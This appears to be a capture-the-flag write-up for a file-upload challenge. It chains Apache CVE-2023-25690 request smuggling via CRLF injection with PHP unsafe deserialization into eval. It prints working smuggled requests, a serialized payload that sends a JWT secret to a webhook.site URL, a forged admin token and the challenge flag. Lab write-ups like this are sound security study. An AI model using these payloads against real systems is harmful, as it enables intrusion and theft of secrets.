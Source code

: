 # File-Vault - CTF Write-up

## Challenge Description
A file uploading platform, where you can upload your file and store it securely!!, but there is some way we need to login as admin to get the flag


## Initial Analysis

### 1. Application Flow
- Can sign up and login
- upload files
- download files

### 2. Source Code Analysis and Vulnerability Analysis
Looking at the frontend apache configuration file:
```conf
RewriteRule "^/get/(.*)" "http://backend-server:8080/index.php?get=$1" [P]
ProxyPassReverse "/get/" "http://backend-server:8080/"
RewriteRule "^/(.*)" "http://backend-server:8080/index.php/v1/$1" [P]
ProxyPassReverse "/" "http://backend-server:8080/index.php/v1/"
```

Looking at the frontend's docker file:
```dockerfile
FROM httpd:2.4.55
```

Looking /internal/verify endpoint:
```php
case '/internal/verify':
        if ($method !== 'POST') {
            http_response_code(405);
            echo json_encode(['error' => 'Method not allowed']);
            break;
        }
        $data = json_decode(file_get_contents('php://input'), true);
        $fileId = $data['file_id'] ?? null;
    
        if (!$fileId) {
            http_response_code(400);
            echo json_encode(['error' => 'File ID is required']);
            break;
        }
        $verifier = @unserialize($fileId) ?: new FileVerifier();
        $result = $verifier->verify($fileId);
        unset($verifier);

        echo json_encode($result);
        break;
```

looking at the verifier.php and internal_verify.php:
```php
class FileVerifier {
    public function verify($fileId) {
        if (!isset($_SESSION['files'][$fileId])) {
            return ['error' => 'File not found'];
        }

        return [
            'message' => 'File verified',
            'hash' => $_SESSION['files'][$fileId]['hash']
        ];
    }
}

class Verifier {
    public $verification;

    public function verify($fileId) {
        if (!isset($_SESSION['files'][$fileId])) {
            return ['error' => 'File not found'];
        }

        return [
            'message' => 'File verified',
            'hash' => $_SESSION['files'][$fileId]['hash']
        ];
    }

    public function __destruct() {
        if ($this->verification) {
            eval($this->verification);
        }
    }
}
```

Key observations:
1. Uses older version of Apache 2.4.55, so we can understand that it might have particular vulnerabilities.
2. By searching about CVEs, we find CVE-2023-25690, that uses the exact rewriterule.
3. /internal/verify point is vulnerable due to unsafe deserialization, and we can access RCE by accessing destruct method Verifier.php
4. Confirmed with CVE-2023-25690
5. there is no way of getting any output from the application.
6. there is no way directly accessing /internal/verify endpoint


## Exploitation Steps

### 1. Confirming the vulnerability
First try lets try it parsing some return line encoded characters like %0A in the url, and testing this, we can confirm it works and hence confirming the CRLF injection


### 2. Crafting the Payload
We found that by looking at the source code we need to get the jwt secret key, and hence we can do HTTP Request Smuggling using this CRLF and splitting of the request, and finally access the internal/verify with the use of CRLF injection (using encoding of space and other escaping characters)
```HTTP
GET /get/help%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aPOST%20/index.php/internal/verify HTTP/1.1
Host: localhost
Content-Type: application/json
```

### 4. Getting the secret key
We know there is no way to get any output, but we can send out the payload as a get request somewhere and recieve it, and finally get the JWT Secret key, so we can do something like:
```HTTP
GET /get/help%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aPOST%20/index.php/internal/verify HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 172

{
  "file_id": "O:8:\"Verifier\":1:{s:12:\"verification\";s:98:\"file_get_contents('https://webhook.site/e2752030-f5a1-440b-b692-7bc77d9adb46?secret='.JWT_SECRET);\";}"
}

```
this payload will get us the secret key in the webhook site.

### 5. Getting the Flag
Finally with the use of JWT.io website, we can forge admin's token and send a request to /api/flag like this, to get the flag
```HTTP
GET /api/flag HTTP/1.1
Host: localhost
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEyMyIsInJvbGUiOiJhZG1pbiIsImV4cCI6MTk5OTk5OTk5OX0.ADUy5SAQCKZHq25kZJfFFMSI-5Xw9ECZyOEDjMOmVEI
```
## Tools Used
- Burp Suite/Postman for requests
- PHP knowledge for crafting the payload

## Flag
`p_ctf{THe_mASt9r_0f_HRS_Ju5t_KiDdIng}`
